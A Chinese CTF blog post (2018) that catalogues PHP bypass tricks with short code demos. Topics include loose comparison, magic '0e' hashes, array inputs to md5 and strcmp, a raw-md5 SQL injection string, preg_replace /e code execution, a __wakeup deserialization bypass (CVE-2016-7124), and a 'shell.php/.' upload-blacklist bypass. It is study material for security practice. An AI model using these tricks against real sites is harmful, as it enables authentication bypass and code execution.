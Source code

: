 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


## 弱类型
```php
<?php

//输出 boolean true
$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true
$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

## 科学记数法
```php
<?php

//输出 boolean true
$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()
```php
<?php
//http://xxxx?a[]=1&b[]=2
//md5对数组类型hash的时候会返回false
//输出 boolean true
$a = md5($_GET['a']);
$b = md5($_GET['b']);
var_dump($a == $b);

//把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符
//输出 'or'6�]��!r,��b
echo md5('ffifdyop',true);

?>
```
- ereg()/eregi()截断
```php
<?php

//http://xxxx?a=abc;
//输出 boolean false
//http://xxxx?a=abc%00;
//输出 boolean true
var_dump(eregi('^[a-z]+$',$_GET[a]));

?>
```

- preg_replace()代码执行
```php
<?php

//pattern里使用参数e导致代码执行
preg_replace('/test/e','phpinfo()','test');

?>
```

- 对parse_url()参数检测的绕过


![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

<font color=red size=2 face="黑体">注：在path前面的"/"到达一定数量之后，parse_url会忽略参数</font>

- mt_srand()伪随机数
用`php_mt_seed`即可算出种子
<br>


- is_numeric()十六进制绕过
```php
<?php

var_dump(is_numeric('0xabcd'));
//输出 boolean true

?>
```

- strcmp()绕过
strcmp输入数组作为参数会返回`NULL`
```php
<?php

//http://xxxx?a[]=www
$a=$_GET['a'];
echo strcmp('aaaa',$a).'<br>';
//输出 无（即NULL）
if(strcmp('aaaa',$a)){
    echo 'false!';
}else{
    echo 'success!';
}
//输出 success

?>
```

## 反序列化
- _wakeup()魔术方法的绕过
利用的是`CVE-2016-7124`
```php
<?php

class test{

    public $s = 'secret';

    function __construct(){
        
    }

    function __wakeup(){
        echo 'wakeup'.'<br>';
        $this->s = '';
    }

    function __destruct(){
        echo 'destruct '.$this->s.'<br>';
        
    }
}

$a = new test();
$serial = serialize($a).'<br>'; 
//O:4:"test":1:{s:1:"s";s:6:"secret";}


unserialize($serial);
//输出：
//wakeup
//destruct 
//可以看到反序列化先运行了__wakeup()函数

//但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup
//即 O:4:"test":2:{s:1:"s";s:6:"secret";}
unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
//输出： 
//destruct secret
//没有运行wakeup


?>

```

- 双引号里的代码执行
```php
<?php

$a = "${system('whoami')}";

?>
```

## 文件上传
- shell.php/.
上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单
